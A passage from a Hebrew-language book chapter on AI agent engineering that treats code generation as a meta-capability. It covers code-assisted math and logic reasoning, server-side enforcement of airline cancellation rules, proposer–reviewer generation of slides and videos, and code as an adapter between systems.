[^ch5-2]: עיצוב והערכה אלה של "הזזת גבול האמון אל מתחת לשכבת היישום" (ובכלל זה השוואה מלאה של מספרי ההפרות בין פתרונות שונים) נמצאים ב‑Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (בהכנה).

## קוד: המטא‑יכולת של סוכן כללי

הסעיף הקודם הראה כיצד לבנות סוכן קוד אמין — מארכיטקטורה דרך מימוש כלים ועד הנדסת Harness. אך ערכה של יצירת הקוד משתרע הרבה מעבר לכתיבת תוכניות.

> **מהי "מטא‑יכולת"?** יכולת רגילה היא יכולתו של סוכן לעשות דבר ספציפי — לענות על שאלה, לקרוא ל‑API מסוים, לייצר פיסת טקסט. **מטא‑יכולת** היא יכולת ש"יכולה ליצור יכולות אחרות": הסוכן משתמש בה כדי לכתוב בזמן אמת כלים חדשים, אילוצים חדשים וצורות ביטוי חדשות כדי להשלים משימה, מבלי שיהיה עליו להחזיק את כל היכולות בנויות מראש. יצירת קוד היא בדיוק מטא‑יכולת כזו — היא מדויקת, ברת‑הרצה וברת‑הרכבה, ומאפשרת לה לייצר כלים חדשים (סקריפטים, רצפי קריאות API), אילוצים חדשים (טענות, כללי אימות) וצורות ביטוי חדשות (טופסי HTML, מצגות, פריימי וידאו).

מסיבה זו, התפקיד שקוד ממלא במערכת סוכן חורג הרבה מעבר ל"כתיבת תוכניות". ששת הסעיפים הבאים מדגימים, אחד‑אחד, שישה כיוונים שבהם מטא‑יכולת זו חלה מעבר לתכנות. ששת הכיוונים הללו אינם רק רשימה שטוחה; הם מתקדמים מבפנים החוצה, מאורגנים לפי האובייקט שעליו המטא‑יכולת מיושמת:

1.  **החשיבה עצמה** — שימוש בקוד להחלפת היסק בשפה טבעית הנוטה לשגיאות (כלי חשיבה);
2.  **כללים עסקיים** — קידוד מדיניות עמומה כאילוצים ברי‑הרצה (אילוצי כללים עסקיים);
3.  **הצגת תוכן** — יצירת מצגות, סרטונים ותוצרי ויזואליזציה (יצירה רב‑מדיה);
4.  **ממשקי מערכת** — גישור בין ממשקי API הטרוגניים והתאמה אוטומטית לפורמטי נתונים מתפתחים (מתאמי מערכת);
5.  **ממשקי משתמש** — בנייה דינמית של טפסים וממשקים אינטראקטיביים (Generative UI);
6.  **הסוכן עצמו** — שימוש בקוד ליצירה או לתיקון של סוכנים חדשים, ובכך לאפשר הנעה עצמית.

### קוד ככלי חשיבה

מודלי LLM מרשימים בהבנה וביצירה של שפה טבעית, אך חלשים ביסודם בחישוב מדויק, במניפולציה סמלית ובדדוקציה לוגית קפדנית. הסיבה: חשיבתו של מודל הסתברותית ומקורבת מטבעה, בעוד שבעיות מתמטיות ולוגיות דורשות תשובות דטרמיניסטיות ומדויקות. השוואה קונקרטית אחת ממחישה את הנקודה:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

תנו ל‑LLM להיות אחראי על הבנת הבעיה ועל כתיבת הקוד, ולמפרש הקוד להיות אחראי על החישוב המדויק — חלוקת עבודה זו מאפשרת לכל אחד לפעול לפי חוזקותיו.

סטיבן וולפרם, יוצר Mathematica, הציע תובנה עמוקה בנושא זה. עוד לפני שהיו מודלי LLM, כבר היו מערכות המסוגלות לחישוב מתמטי מדויק — הן פעלו באמצעות **חישוב סמלי**, כלומר עיבוד ביטויים באמצעות סמלים מתמטיים ולא ערכים מספריים מקורבים. לדוגמה, מחשבון רגיל היה מקרב את $\sqrt{2}$ ל‑1.414, בעוד שמערכת חישוב סמלי הייתה משמרת את הצורה המדויקת $\sqrt{2}$, וממירה לעשרוני רק בעת הצורך. Wolfram Alpha, שיצר וולפרם, היא מערכת כזו: משתמשים מזינים בעיה מתמטית, והיא מחזירה תשובה מדויקת. עם זאת, הבנת השפה הטבעית שלה שברירית למדי והכיסוי שלה צר — היא נשענת על מנתח דקדוק מובנה שיכול לזהות רק מערך ניסוחים מוגבל; שינוי קל בניסוח עלול לגרום לכשל בניתוח, והיא בוודאי אינה יכולה להתמודד עם היסק רב‑שלבי בתחום פתוח. מודלי LLM ממלאים פער זה באופן מושלם — הם מצטיינים בהבנת ביטויים מגוונים בשפה טבעית אך אינם טובים בחישוב מדויק. מודל שיתוף הפעולה החדש הוא: לתת ל‑LLM להיות אחראי על הבנת שאלת המשתמש בשפה טבעית, על זיהוי המבנה המתמטי או הלוגי שבתוכה, ועל תרגומה לשפה פורמלית (כגון שפת Mathematica או ספריית SymPy של Python); ואז למסור אותה למנוע חישוב סמלי ייעודי או לפותר אילוצים לביצוע כדי להשיג תוצאות מדויקות.

> **ניסוי 5‑1 ★★: שימוש בכלי יצירת קוד לשיפור יכולת פתרון בעיות מתמטיות**
>
> **מטרת הניסוי**: לאמת את שיפור הדיוק בחשיבה המתמטית של סוכן בסיוע מפרש קוד.
>
> **גישה טכנית**: ציידו את הסוכן בארגז חול של Python המכיל ספריות מתמטיות כגון sympy,‏ numpy ו‑scipy. כאשר הסוכן נתקל בבעיה מתמטית, הוא מפרמל אותה לקוד Python:‏ sympy לחישוב סמלי (חשבון דיפרנציאלי ואינטגרלי, פתרון משוואות), scipy לאופטימיזציה נומרית, numpy לפעולות מטריצות. הקוד שנוצר מורץ בארגז החול כדי להחזיר תוצאות מדויקות.
>
> **קריטריוני קבלה**: הערכה באמצעות בעיות בסגנון AIME (על פי בחינת ההזמנה האמריקאית במתמטיקה). השוו את הדיוק של היסק שרשרת מחשבה טהור לזה של היסק בסיוע קוד; מצב הסיוע בקוד צריך להשיג דיוק גבוה משמעותית. בדקו האם הקוד משתמש נכון בספריות המתמטיות והאם תהליך הפתרון ברור לוגית.
>

> **ניסוי 5‑2 ★★: שימוש בכלי יצירת קוד לשיפור יכולת ההיסק הלוגי**
>
> **מטרת הניסוי**: להעריך את יכולתו של הסוכן לבצע היסק לוגי בעזרת קוד לפתרון אילוצים.
>
> **גישה טכנית**: ציידו את הסוכן במפרש קוד המכיל את ספריית python‑constraint. הסוכן מתרגם חידות לוגיות, כגון בעיות אבירים ונוכלים, למודלי אילוצים פורמליים: הוא מזהה את המשתנים (זהותו של כל תושב אי), מקודד כללים כגון "אבירים אומרים אמת" כאילוצים, ומפעיל את הפותר כדי למצוא השמה מספקת.
>
> **קריטריוני קבלה**: הערכה באמצעות [מערך הנתונים K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). מצב הסיוע בקוד צריך להשיג דיוק פתרון של מעל 90%, גבוה משמעותית ממצב החשיבה הטהורה.
>

ניסוי זה חושף גם דפוס כללי יותר: מודל ו‑Harness מתחלפים זה בזה. כאשר המודל חזק דיו, ה‑Harness יכול להיות דק יותר — המודל מסיק נכונה בכוחות עצמו, והרווח מפותר קוד מצטמצם. כאשר המודל חלש יותר, ה‑Harness חייב לעשות יותר — להעביר את ההיסק הלוגי המרכזי לקוד ולפותרי אילוצים כדי להבטיח נכונות. זו הסיבה שניסוי זה משתמש בכוונה במודל חלש יותר, כדי להגביר את הניגוד: על מודל חלש, חשיבה טהורה מחשבת שגוי כל הזמן וסיוע הקוד מעלה את הדיוק דרמטית; על מודל היסק חזק דיו, חשיבה טהורה פותרת לעיתים קרובות כל חידה, והרווח מסיוע הקוד מתכנס לאפס כמעט. כמה עבה צריך להיות ה‑Harness תלוי אפוא במקום שבו נמצא גבול היכולת של המודל שלכם — הנחה שקל להתעלם ממנה בהערכת כל טכניקת סוכן: אותו Harness, בשילוב עם מודלים בעוצמות שונות, יכול לתמוך במסקנות הפוכות.

### קוד כאילוץ לכללים עסקיים

סעיף זה הוא תגובה ישירה לסעיף הנדסת ה‑Harness שקדם בפרק זה. אחד מעקרונות הליבה של ה‑Harness הוא "אילוצים: מקודדים, לא מתועדים" — הפיכת כללים מתיעוד בשפה טבעית לקוד בר‑הרצה, ובכך הפיכתם לאילוצים מחייבים על התנהגות המערכת ולא להנחיות מייעצות. יצירת קוד מאפשרת לסוכן להשלים תהליך המרה זה באופן אוטונומי.

כללים עסקיים, תהליכי עבודה ולוגיקת החלטה המתוארים רק בשפה טבעית רצופים עמימות. מהי "בקשת החזר סבירה"? מה נחשב "חירום"? הגבולות מתנגדים להגדרה בשפה טבעית — "ניתן להחזר תוך 7 ימים מהרכישה" נשמע ברור, אך האם אלה ימים קלנדריים או ימי עסקים? האם "רכישה" פירושה הצבת ההזמנה או המשלוח? קוד, לעומת זאת, הוא ייצוג חד‑משמעי ובר‑הרצה של ידע — הוא רץ או זורק שגיאה; אין אמצע.

**ביטוי מדויק של כללים עסקיים מורכבים.**

**כללים בשפה טבעית לעומת כללים מקודדים: משלימים, לא ניתנים להחלפה**

כתיבת כללים בהנחיית המערכת מאפשרת למודל **להסביר מדיניות** למשתמשים, **לזהות חלופות תואמות מדיניות** (למשל, "הזמנה מחדש במקום ביטול"), ולבצע שיפוט היתכנות ראשוני לפני קריאה לכלי.

קידוד כללים ככלי אימות מציע שלושה יתרונות: **לוגיקת החלטה מדויקת וחד‑משמעית**; **ביצוע דטרמיניסטי**, כך שאותו קלט תמיד מייצר אותו פלט; וטיפול אפקטיבי ב**צירופי כללים מורכבים**, כגון לוגיקה בוליאנית רב‑תנאית, חישובי זמן ואימות חוצה‑מקורות‑נתונים.

בפועל, יש להשתמש בהם יחד: הנחיית המערכת מכילה כללים בשפה טבעית להבנה ולתקשורת, בעוד שנקודות החלטה מרכזיות מצוידות בכלי אימות מקודדים המשמשים כ"שומרי סף" כדי להבטיח ציות.

הערך האמיתי של כללים מקודדים אינו יעילות טוקנים אלא **מניעת טעויות בלתי הפיכות**. ביטול הזמנה, העברת כספים או מחיקת נתונים עשויים להיות בלתי ניתנים לביטול לאחר הביצוע. אימות מקודד ממקם קו הגנה אחרון לפני הפעולה, וערכה של אותה ערובה עולה בהרבה על עלות מימושה.

**שילוב אימות עם ביצוע: רשימות בדיקה מנחות היסק; אימות מול אמת הקרקע שומר על השער**

במקום לבנות כלי אימות נפרד, שימו את האימות בתוך כלי הביצוע. שקלו את מדיניות ביטול הטיסות מ‑τ‑bench, מדד שתוכנן להעריך שימוש בכלים וציות למדיניות בתרחישי שירות לקוחות מדומים של תעופה ומסחר אלקטרוני:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

את ערכו של עיצוב זה יש להבין בשתי רמות.

**רמה ראשונה: פרמטרים כרשימת בדיקה לחשיבה.** תיאור הכלי מונה את מדיניות הביטול המלאה ודורש מהמודל "לתשאל את פרטי ההזמנה ולבדוק כל תנאי אחד‑אחד לפני הקריאה"; הפרמטרים האופציונליים `expected_*` מניעים את המודל בהמשך לכתוב במפורש את ההיסק שלו עצמו. כדי למלא פרמטרים אלה, המודל חייב תחילה לקרוא לכלי התשאול כדי לקבל את פרטי ההזמנה ולאמת כל תנאי אחד‑אחד — מילוי פרמטרים אלה מתפקד אפוא כ**רשימת בדיקה מחייבת**. כאשר המודל מגלה שדרגת התא היא תיירים ושלא נרכש ביטוח, הוא עשוי להבחין בכלל 5 בעודו מכין את הקריאה ולכן **להימנע מיזומה**, ובמקום זאת לומר ישירות למשתמש "מחלקת תיירים ללא ביטוח אינה ניתנת לביטול. שקול לרכוש ביטוח לפני ביטול או לשנות את ההזמנה." שכבה זו מנחה היסק ומצמצמת קריאות מיותרות; עם זאת, היא אינה גבול אבטחה. ערכי ה‑`expected_*` הם רק טענות שדווחו עצמית, ולעולם אינם עובדות שהשרת בוטח בהן.

**רמה שנייה: אימות מול אמת הקרקע בצד השרת כשומר הסף.** שימו לב לעיצוב המרכזי בקוד: דרגת התא, מצב הביטוח, מועד ההזמנה, ניצול המקטעים ומצב הטיסה — כולם מתושאלים ממסד הנתונים על ידי השרת; הזמן הנוכחי מגיע משעון השרת. **אף עובדת מדיניות אינה מגיעה מפרמטרים שהמודל דיווח עצמית.** אין זו יתירות מיותרת: המודל עלול להזות או להיות מתומרן על ידי הזרקת פרומפט, וכפי שניתוח השילוש הקטלני לעיל הראה — סוכן הפועל בתוך הקשר יחיד אינו יכול לאמת באמינות את התנהגותו שלו. אילו `cabin_class`,‏ `has_insurance`, ואף `current_time` היו מעוצבים כפרמטרים הממולאים על ידי המודל, ערך שקרי אחד — בין אם בטעות ובין אם מושרה — היה יכול לעקוף את שומר הסף. קו ההגנה האחרון חייב להיבנות על נתונים שהמודל אינו יכול לזייף — הדבר עקבי עם העמדה שהוצגה קודם ש"פעולות קריטיות דורשות אימות עצמאי": עצמאות מתייחסת לא רק למודל עצמאי אלא גם למקור נתונים עצמאי.

ההגנה התלת‑שכבתית שלמה אפוא: (1) כללים בשפה טבעית בהנחיית המערכת מסייעים בהבנה ובהסבר; (2) תיאורי כלים ועיצוב פרמטרים משמשים כרשימת בדיקה, ומנחים את המודל לאמת תנאים במפורש לפני הקריאה; (3) אימות מבוסס קוד בצד השרת המשתמש באמת הקרקע של מסד הנתונים משמש כשומר הסף הסופי. שתי השכבות הראשונות מצמצמות את התרחשות השגיאות, והשלישית מבטיחה ששגיאות לא יהפכו להפסדים בלתי הפיכים.

> **ניסוי 5‑3 ★★: מודלים קטנים משפרים את דיוק ביצוע הכללים באמצעות ידע מקודד**
>
> **מטרת הניסוי**: לאמת שקידוד כללים עסקיים מורכבים בקוד משפר משמעותית את הדיוק ואת העקביות שבהם מודל קטן (Qwen3‑4B) מבצע כללים אלה.
>
> **גישה טכנית**: תכננו ניסוי מבוקר המבוסס על תרחיש שירות הלקוחות בתעופה של τ‑bench. **קבוצת בקרה**: כללים בשפה טבעית טהורה, בהסתמך על ההיסק של המודל עצמו. **קבוצת הניסוי**: הגנה תלת‑שכבתית — הנחיית המערכת משמרת כללים בשפה טבעית; תיאור הכלי מונה את המדיניות המלאה ומשתמש בפרמטרים אופציונליים `expected_*` כדי להנחות את המודל לבדוק כל תנאי אחד‑אחד לפני הקריאה (רשימת בדיקה); הכלי מבצע פנימית אימות מבוסס קוד על סמך אמת הקרקע של מסד נתונים מדומה (כל עובדות המדיניות מושגות ממסד הנתונים, הזמן נלקח משעון השרת, ופרמטרים שהמודל דיווח עצמית אינם נאמנים). מדדי הערכה: שיעור הצלחת המשימות, מספר הפרות המדיניות, מספר קריאות הכלים המיותרות, חוויית המשתמש.
>
> **תוצאות צפויות**: קבוצת הניסוי עולה משמעותית על קבוצת הבקרה. חשוב מכך, המודל מזהה באופן אוטונומי הפרות מדיניות בעודו מכין פרמטרים ומציע חלופות מבלי לקרוא לכלי, ובכך מדגים את ערכם של פרמטרים כרשימת בדיקה. לבסוף, מדדו את שיעור אי‑ההתאמה בין ערכי `expected_*` שדווחו עצמית לאמת הקרקע של מסד הנתונים כדי להראות מדוע אימות בצד השרת נחוץ ללכידת שגיאות היסק.
>

### יצירה רב‑מדיה מונעת קוד

יצירתם של מסמכים מורכבים רבים היא במהותה ארגון והצגה של נתונים מובנים. בין אם מדובר במצגת, בדוח טכני או ביישום אינטראקטיבי, המבנה הבסיסי מוגדר על ידי קוד — HTML מתאר את המבנה, CSS שולט בסגנון, ו‑JavaScript מממש אינטראקטיביות. יצירת מסמכים מסורתית נשענת על עורכי WYSIWYG מבוססי GUI, שאינם מתאימים לסוכנים משום שהם דורשים פרשנות חזותית ומיקום סמן מדויק. באמצעות יצירת קוד, סוכנים עוקפים את אתגר המיקום החזותי ורוכשים שליטה מדויקת במסמכים — המיקום, הסגנון והתוכן של כל אלמנט מוגדרים בבירור וניתנים לשינוי ולאופטימיזציה תכנותית.

**סוכן יצירת מצגות.**

יצירת מצגות ידועה לשמצה כמפרכת. מצגת אקדמית טיפוסית משתרעת על עשרות שקופיות, שכל אחת דורשת פריסה קפדנית, נקודות מפתח מזוקקות ותרשימים נבחרים היטב. אך מסגרו מחדש את יצירת המצגת כבעיית יצירת קוד, וחלק ניכר מהמורכבות נופל. מסגרות מצגות מודרניות כגון Slidev מאמצות פילוסופיית עיצוב אלגנטית: הגדירו את התוכן ב‑Markdown וב‑HTML. יצירת שקופית לוקחת כמה שורות של סימון תמציתי, והמסגרת מטפלת ברינדור, בפריסה ובאנימציה. עבור סוכן ששולט ביצירת קוד, זהו שטח אידיאלי.



אך יצירת הקוד אינה מספיקה. **ברגע שהסוכן כתב את הקוד, אין לו מושג כיצד התוצאה מרונדרת בפועל**: תוכן צפוף מדי, טקסט הגולש, תמונות בגודל הלא נכון — דבר מכל אלה אינו נראה עד שהשקופיות מרונדרות בפועל. לפיכך, נדרש מנגנון **מציע–סוקר** (המוצג באיור 5‑5) כדי להקצות את יצירת הקוד ואת סקירת האיכות לשני סוכנים עצמאיים:

- **סוכן המציע** אחראי על יצירת קוד Slidev, על הבנת המבנה הלוגי של התוכן, ועל פירוקו לעמודים סבירים.
- **סוכן הסוקר** מריץ את הקוד כדי לרנדר כל עמוד כתמונה, משתמש ב‑Vision LLM (מודל גדול רב‑מודאלי שיכול "לראות" תמונות) כדי להעריך את השקופיות המרונדרות מבחינת צפיפות תוכן, קריאוּת, איכות פריסה ומשיכה חזותית, ומייצר **הצעות שיפור מובנות** — לא "לא נראה טוב" עמום, אלא הנחיה ספציפית וברת‑פעולה (למשל, "עמוד 3: יותר מדי תוכן, שקול פיצול"; "עמוד 7: גופן בלוק הקוד קטן מדי, מומלץ להגדיל ל‑14pt"), הכוללת שדות כגון מספר עמוד, סוג בעיה וחומרה.

המציע מקבל את המשוב, מפרש אותו, משנה את הקוד, ומגיש מחדש את הגרסה החדשה לסוקר. מחזור זה נמשך עד שהמצגת עומדת בתקן האיכות או עד שמספר האיטרציות המרבי (למשל, חמישה סבבים) מושג. "האיכות עומדת בתקן" ו"מספר סבבים מרבי" הם בדיוק שני סוגי תנאי העצירה המפורשים שהנדסת הלולאה דורשת: הראשון מאפשר לסוקר להכריע שהמטרה הושגה; האחרון הוא תקרת תקציב המונעת מהלולאה להשתולל.

לולאת המציע–סוקר כאן עוקבת אחר אותו דפוס כמו מנגנון ה**אישור המוקדם** בפרק 4: סוכן אחד מייצר, ואחר מעריך באופן עצמאי. שני היישומים נבדלים במטרה ובזרימת העבודה. פרק 4 משתמש בדפוס כדי לאשר או לדחות פעולה בלתי הפיכה יחידה; כאן, הוא מניע שיפור תוכן איטרטיבי לאורך סבבים מרובים, כשהסוקר רואה פלט מרונדר שאינו זמין למציע. עקרונות העיצוב המרכזיים עקביים (אילוצי מטרה משותפים, שימוש במשפחות מודלים שונות כדי לצמצם את ההסתברות לשגיאות דומות, משוב כאירוע מיוחד המתווסף למסלול המציע). ה**יתרון המרכזי** של שימוש בחלוקת עבודה דו‑סוכנית ולא בלולאה חד‑סוכנית טמון ב**ניהול ההקשר**: הסוקר מעבד רק את התמונות המרונדרות של הגרסה האחרונה, ואינו מושפע מגרסאות היסטוריות; המציע צובר רק משוב טקסטואלי מובנה, צורך פחות טוקנים ומקל על ההיסק. פתרון חד‑סוכני היה צריך לצבור תמונות מרונדרות מסבבים מרובים עבור עשרות עמודים באותו הקשר, וחורג במהירות ממגבלת ההקשר. מנגנון זה יעבור שימוש חוזר בניסויים הבאים על עריכת וידאו וויזואליזציית יומנים; פרק 10 יחקור בהמשך מצבי שיתוף פעולה רב‑סוכניים נוספים מעבר לפרדיגמת המציע–סוקר.

> **ניסוי 5‑4 ★★: יצירת מצגת אוטומטית ממאמרים**
>
> **מטרת הניסוי**: לייצר אוטומטית מצגות איכותיות ממאמרים אקדמיים, ולאמת את האפקטיביות של מנגנון המציע–סוקר בבקרת איכות יצירת תוכן.
>
> **גישה טכנית**: השתמשו במסגרת Slidev. סוכן המציע קורא את קובץ ה‑PDF של המאמר, מחלץ מבנה פרקים, טיעונים מרכזיים ואיורים, מתכנן את מבנה המצגת, ומייצר קוד Slidev עמוד אחר עמוד. **שלב מפתח**: סוכן הסוקר מרנדר כל שקופית ולוכד צילום מסך, ואז משתמש ב‑Vision LLM כדי להעריך את התוצאה מבחינת גלישת טקסט, צפיפות תוכן וגודל תמונות בלתי הולם. המציע והסוקר מבצעים איטרציות עד שהמצגת עומדת בתקן האיכות.
>
> **קריטריוני קבלה**: ייצרו 10‑20 שקופיות המכסות את תרומותיו העיקריות של המאמר. כללו לפחות 3 איורים מקוריים התואמים לטקסט הנלווה. ללא גלישת טקסט ברינדור, פריסה סבירה. השוו את צריכת ההקשר ואת איכות היצירה בין סקירה עצמית חד‑סוכנית לבין חלוקת עבודה של מציע–סוקר.
>

> **ניסוי 5‑5 ★★: יצירה אוטומטית של סרטוני הסבר על מאמרים**
>
> **מטרת הניסוי**: להרחיב את יכולות יצירת המצגות, תוך שילוב ערוצים חזותיים ושמיעתיים כדי להשיג יצירה אוטומטית של סרטוני הסבר.
>
> **גישה טכנית**: בהתבסס על זרימת העבודה של המצגות מניסוי 5‑4, הסוכן מייצר גם קריינות שיחתית לכל שקופית — המנחה את הצופה ולא חוזרת על טקסט השקופית — משתמש ב‑TTS (טקסט לדיבור) כדי לסנתז את האודיו, ומשלב את תמונות השקופיות ואת האודיו עם FFmpeg כדי להפיק את הסרטון הסופי.
>
> **קריטריוני קבלה**: הפיקו סרטון באורך 5 עד 15 דקות שבו זמן התצוגה של כל שקופית תואם בדייקנות לקריינות שלה והקריינות מתאימה לאלמנטים החזותיים.
>
>
> 
>
>

**סוכן עריכת וידאו.**

עריכת וידאו באמצעות ממשק Computer Use לשימוש כללי מציבה מכשול יסודי: ממשקי עריכת וידאו מורכבים במיוחד — צפופים בצירי זמן, בשכבות ובלוחות אפקטים. סוכן חייב לאתר ולתפעל אלמנטים אלה באמצעות עכבר ומקלדת, מה שדורש קואורדינטות מדויקות שמודלים מתקשים לייצר.

מסגור מחדש של עריכת וידאו כקריאות API וכיצירת קוד מקצץ את המורכבות דרמטית. כלי תוכנה מקצועיים רבים (כגון Blender — כלי יצירה תלת‑ממדית והרכבת וידאו בקוד פתוח התומך בסקריפטים ב‑Python; ‏FFmpeg — אולר שוויצרי בשורת הפקודה לעיבוד אודיו/וידאו) מספקים ממשקי API תכנותיים החושפים תפקוד ליבה באופן מובנה ובר‑הרכבה. לדוגמה, ה‑API של Blender ב‑Python מאפשר שליטה מדויקת בפעולות כגון ייבוא, גזירה, סידור, הוספת אפקטי מעבר וערבוב אודיו עבור קטעי וידאו, כשכל פעולה מקבילה לקריאת פונקציה ברורה. עבור סוכן, המרת דרישות בשפה טבעית לקריאות API קלה בהרבה מהבנת ממשק GUI וסימולציה של לחיצות עכבר. בדומה ליצירת מצגות, גם עריכת וידאו מאמצת את מנגנון המציע–סוקר — סוכן המציע מייצר סקריפטי Blender, סוכן הסוקר מרנדר פריימי מפתח ומשתמש ב‑Vision LLM כדי לבדוק את התוצאה, ומספק משוב לשינוי.

> **ניסוי 5‑6 ★★: עריכת וידאו חכמה מבוססת API**
>
> **מטרת הניסוי**: לאמת את יכולתו של הסוכן לבצע עריכת וידאו באמצעות יצירת קוד ל‑API של Blender ב‑Python, ולהעריך את תפקידו של מנגנון המציע–סוקר מבוסס משוב חזותי בעיבוד תוכן רב‑מדיה.
>
> **אתגר הליבה**: הבנת דרישות העריכה של המשתמש בשפה טבעית והמרתן לרצפי קריאות API מדויקים, טיפול בפעולות עריכה מגוונות (גזירה, מיזוג, כתוביות, ערבוב ערוצי אודיו, אפקטים חזותיים), והבטחה שסקריפט ה‑Python שנוצר ירוץ נכונה. לאחר שסוכן המציע כותב את הקוד, הוא אינו יכול לשפוט ישירות את תוצאת הווידאו; עליו להישען על סוכן הסוקר כדי לרנדר ולהשתמש ב‑Vision LLM כדי לבדוק פריימי מפתח.
>
> **גישה טכנית**: המשתמש מספק חומר וידאו (למשל, צילומי גלם המכילים סצנות כגון גלישה, טיולים וסקי) ומתאר דרישות בשפה טבעית (למשל, "חתוך את החלק של הגלישה"). סוכן המציע משתמש בתת‑סוכן לניתוח וידאו עם **אסטרטגיית איתור דו‑שלבית**:
>
> **שלב 1, איתור גס**: קראו לתת‑הסוכן עם נתיב הווידאו, מרווח דגימת פריימים של 10 שניות, ושאלת היעד. תת‑הסוכן משתמש ב‑ffmpeg כדי ללכוד פריימים באותו מרווח, שולח את צילומי המסך ואת השאלה ל‑Vision LLM, ומחזיר את מרווח הסצנה (למשל, "גלישה נמצאת בין שניות 40‑110").
>
> **שלב 2, איתור מדויק**: קראו לתת‑הסוכן שוב על טווח צר יותר ודגמו פריים אחד לשנייה כדי לאתר את הגבולות בדייקנות.
>
> עטיפת ניתוח הווידאו כתת‑סוכן מונעת ממספר גדול של צילומי מסך לתפוס את ההקשר של הסוכן הראשי. לאחר האיתור, המציע מייצר את סקריפט ה‑API של Blender. סוכן הסוקר מבצע תצוגה מקדימה מהירה, בודק פריימי מפתח, ומספק משוב לשינוי, תוך איטרציה עד לעמידה בתקן לפני רינדור מלא.
>
> **קריטריוני קבלה**: הסוכן יכול לזהות בדייקנות סצנות שונות בווידאו ולייצר נכונה סקריפטי עריכה על בסיס הוראות בשפה טבעית. נקודות ההתחלה והסיום מדויקות (שגיאה בתוך 3 שניות). אם ההוראות כוללות דרישות אפקטים מיוחדים (הילוך איטי, מעברים, כתוביות), הווידאו שנוצר מיישם נכונה את האפקטים. סוכן הסוקר יכול לזהות שגיאות בולטות (תוכן מרכזי חסר, כולל קטעים בלתי רלוונטיים) ולהפעיל תיקונים. קובץ הווידאו הסופי בעל פורמט נכון ועומד באיכות הצפויה.
>

### קוד כמתאם מערכת

הקוד בסעיפים הקודמים מייצר בעיקר דברים "הפונים לאדם" — דוחות, שקופיות, ממשקים. הקוד בסעיף זה מצביע לכיוון אחר: **חיבור מכונה למכונה**. במערכות אמיתיות, לשירותים החיצוניים שסוכן חייב לדבר איתם אין לעיתים קרובות SDK מוכן, וממשקיהם רחוקים מלהיות מסודרים — התיעוד עשוי להיות חסר, פורמטי התגובה עשויים להיות בלתי תקניים, ושדות עשויים לסטות בין גרסאות. הסוכן אינו צריך להמתין למתאם בנוי מראש. הוא יכול לקרוא את תיעוד ה‑API או לבחון כמה תגובות אמיתיות, ואז לייצר את המתאם לפי דרישה: לבנות לקוח HTTP, להרכיב כותרות אימות, לנתח את מבנה התגובה הבלתי תקני, ולתרגם את מודל הנתונים במעלה הזרם לצורה שהצד שבמורד הזרם יכול לצרוך. קוד כאן הוא "דבק אוניברסלי" לחיבור מערכות שרירותיות — בכל מקום שיש פער, נוצרת פיסת דבק לפי דרישה כדי למלא אותו. זהו לב הכיוון של "ממשק המערכת" במטא‑יכולת. ניתוח היומנים המסתגל המפותח להלן הוא יכולת זו הפוכה לקונקרטית בהקשר יכולת התצפית: מול פורמטי יומנים שאינם מפסיקים להתפתח, הסוכן מסתגל באופן דומה באמצעות יצירת קוד ניתוח בזמן אמת.

"דבק אוניברסלי" זה יכול להתרחב גם ל**מערכות ללא API כלל**: כאשר מערכת חיצונית חושפת רק ממשק גרפי, הסוכן יכול תחילה להפעיל את הממשק באמצעות Computer Use (מפורט בפרק 6), ואז לקבע את רצף הפעולות המוצלח ככלי RPA בקוד — בפעם הבאה שאותה משימה עולה, הוא פשוט מריץ את הקוד, מהר ויציב, ללא צורך בהיסק חזותי יקר. RPA, אפשר לומר, הוא מתאם המערכת בצורתו הקיצונית: מתאם למערכות ללא ממשק תכנותי. מנגנון "הקלטת וקיבוע זרימת העבודה" הזה מפותח בפרק 9.

